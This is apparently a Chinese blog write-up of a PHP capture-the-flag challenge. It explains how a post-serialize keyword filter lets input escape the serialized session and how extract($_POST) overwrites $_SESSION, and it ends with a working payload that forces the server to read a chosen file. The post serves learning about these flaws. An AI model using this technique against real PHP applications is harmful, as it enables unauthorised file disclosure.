


it's been a long time to do ctf

  

<!--more-->

  

看了原理觉得自己会了，实践起来Oh My Oh My God Yes or Yes not?

  

# 审计

  

先看一下源码

  

```php

<?php

  

$function = @$_GET['f'];// f 可以通过GET方式进行传参

  

//对特定字词进行过滤，

function filter($img){

    $filter_arr = array('php','flag','php5','php4','fl1g');

    $filter = '/'.implode('|',$filter_arr).'/i';

    return preg_replace($filter,'',$img);

}

  
  

if($_SESSION){

    unset($_SESSION);

}

  

$_SESSION["user"] = 'guest';

$_SESSION['function'] = $function;

  

extract($_POST);

  

if(!$function){

    echo '<a href="index.php?f=highlight_file">source_code</a>';

}

  

if(!$_GET['img_path']){

    $_SESSION['img'] = base64_encode('guest_img.png');

}else{

    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));

}

  

$serialize_info = filter(serialize($_SESSION));

  

if($function == 'highlight_file'){

    highlight_file('index.php');

}else if($function == 'phpinfo'){

    eval('phpinfo();'); //maybe you can find something in here!

}else if($function == 'show_image'){

    $userinfo = unserialize($serialize_info);

    echo file_get_contents(base64_decode($userinfo['img']));

}

```

  

<font size=1>其实第一遍看的时候，只看出过滤和反序列化，以及三个 $function 带来的不同结果。</font>

  
  

里面的关键在于

  

- `filter($img)`

  
  

- `extract($_POST)`

  
  

- `$serialize_info = filter(serialize($_SESSION));`

  
  

- `$userinfo = unserialize($serialize_info);`

  
  

  -  `echo file_get_contents(base64_decode($userinfo['img']))`

  

就写一点demo进行理解吧

  

## filter & serialize

  

### get started

  

依照主要逻辑写了一个demo

  

```php

<?php

//过滤（照搬）

function filter($img){

    $filter_arr = array('php','flag','pp5','php4','flag');

    $filter = '/'.implode('|',$filter_arr).'/i';

    return preg_replace($filter,'',$img);

}

  

//传入的参数值

$img = "this is a demo";

  

//序列化

$n = serialize($img);

  

//过滤

$n1 = filter($n);

  

//反序列化

$n2 = unserialize($n1);

  

echo 'serialize: <br>'.$n.'<br>';

echo 'filter: <br>'.$n1.'<br>';

echo 'unserialize: <br>';

var_dump($n2);

```

  

- 当 `$img = "this is a demo"` 的时候，返回：

  

```txt

serialize:

s:14:"this is a demo";

filter:

s:14:"this is a demo";

unserialize:

this is a demo

```

  

- 当`$img = array('y'=> 'u','x' => 'fun');`的时候，返回：

  

```txt

serialize:

a:2:{s:1:"y";s:1:"u";s:1:"x";s:3:"fun";}

filter:

a:2:{s:1:"y";s:1:"u";s:1:"x";s:3:"fun";}

unserialize:

array(2) { ["y"]=> string(1) "u" ["x"]=> string(3) "fun" }

```

  

一切都很正常。

  

- 当 `$img = "this is a flagdemo"` 的时候，返回：

  

```txt

serialize:

s:18:"this is a flagdemo";

filter:

s:18:"this is a demo";

unserialize:

```

  

- 当`$img = array('y'=> 'flag','php' => 'fun');`的时候，返回：

  

```txt

serialize:

a:2:{s:1:"y";s:4:"flag";s:3:"php";s:3:"fun";}

filter:

a:2:{s:1:"y";s:4:"";s:3:"";s:3:"fun";}

unserialize:

bool(false)

```

  
  

发生了问题：

  

**这个字符串无法被正确地反序列化。**（当然这个不是重点但是有点funny）

  

因为在序列化的字符串中，`s:18`表示接下来的字符串的长度应该是18。但是在`filter()`函数处理后，字符串的实际长度变为14，所以当你尝试使用`unserialize()`函数反序列化这个字符串时，它会返回`FALSE`，并产生一个`E_NOTICE`。

  

如果是在其他题目，其实这种也很好绕过，双写 or 大小写（所以说正则表达式和白名单better at most of time）

  
  

<hr>

<hr>

  

### abandoned

  

unserialize()有一个机制

  

- `{}`**内的会进行反序列，之外的抛弃。**

  

如果`{}`内元素个数与规定的不一致会返回：**bool(false)**

  

比如：

  

`$dance = "a:2:{s:3:\"one\";s:4:\"flag\";s:3:\"two\";s:4:\"test\";};s:3:\"ddimg\";lajilaji";`

  

- 反序列化得到：`array(2) { ["one"]=> string(4) "flag" ["two"]=> string(4) "test" }`

  
  

## SESSION

  

### POST

  
  

`extract($_POST);`，作用是将 POST （看作一个数组）传入的 数组 中的元素进行变量化

  

```php

$_POST = array(

    'username' => 'John Doe',

    'email' => 'john@example.com'

);

  

extract($_POST);

  

//得到

$username = 'John Doe';

$email = 'john@example.com';

  

//在之后的引用中，直接写

```

  

该函数存在的一个安全问题——操作不当会**覆盖原有变量**。

  

这也是本题的关键之处之一。

  
  

```php

//对存在的 $_SESSION进行重置 = NULL

if($_SESSION){

    unset($_SESSION);

}

  

//可以理解 $_SESSION 是一个数组，目前里面有这两个键值对

$_SESSION["user"] = 'guest';

$_SESSION['function'] = $function;

  

....

//该变量值为序列化后再过滤的 $_SESSION

$serialize_info = filter(serialize($_SESSION));

  

...

//在前提条件下 $userinfo 变量值为 反序列化 后的上面那个变量（太长了懒得打），最后通过 file_get_contents函数将 base64 解码后的 键为 img 的变量的值输出

if($function == 'show_image'){

    $userinfo = unserialize($serialize_info);

    echo file_get_contents(base64_decode($userinfo['img']));

}

...

```

  

<hr>

  

简单一个demo test

  

```php

$_SESSION["user"] = 'guest';

$_SESSION['function'] = $function;

  

//before

var_dump($_SESSION);

  

echo "<br/>";

  

extract($_POST);

//after

var_dump($_SESSION);

```

  

POST传参：`_SESSION[flag]=123f`，结果是：

  

//before

array(2) { ["user"]=> string(5) "guest" ["function"]=> string(1) "f" }

//after

array(1) { ["flag"]=> string(4) "123f" }

  

this is

**变量覆盖**

  

<hr>

<hr>

  

# payload

  

先捋一下：

- filter进行黑名单过滤关键词和符号

- 序列化

- extract()函数存在可控变量

- 在 `$function == 'show_image'`条件下进行输出

  

- $_SESSION 经过 **序列化** 经过 **自定义过滤** 经过 **反序列化** 最后 召唤 img 键值

  
  

所以重点来到究竟传参什么

  
  

```php

//如果不存在 img_path 就赋值 $_SESSION['img'] 为 base64 编码后的 那个png

if(!$_GET['img_path']){

    $_SESSION['img'] = base64_encode('guest_img.png');

}else{

    //否则就赋值为 base64 编码后又SHA-1编码后的 img_path

    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));

}

  

...

//输出的是$_SESSION中的键 img 的值

echo file_get_contents(base64_decode($userinfo['img']));

```

  

so,

传入一个抛弃原有 img 键值对的 **新_SESSION**

  

**构造（img 值要进行编码以适应解码）**：

`f = show_image`（GET传参构造条件）

`_SESSION[flagflag]=";s:3:"aaa";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}`

  

<br>

<br>

  

经过上述$_SESSION的取经路，

- serialize构造出一个

`a:1:{s:8:"flagflag";s:51:"";s:3:"aaa";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}";}`

  

- 过滤一下

`a:1:{s:8:"";s:51:"";s:3:"aaa";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}";}`

  

- 真正起作用的(抛弃多余部分)

`a:1:{s:8:"";s:51:"";s:3:"aaa";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}`

  

可以看到 img 键值已经出现且重写。

  

接收响应会得到

  

`$flag = 'flag in /d0g3_fllllllag';`

  




  

将那段字符base64 后甩入img值中，接收响应得到flag。

  

# Q

  

其实payload在进行反序列化的时候会出现问题，返回bool(false)，但是为什么依旧可以进行，有点不理解。



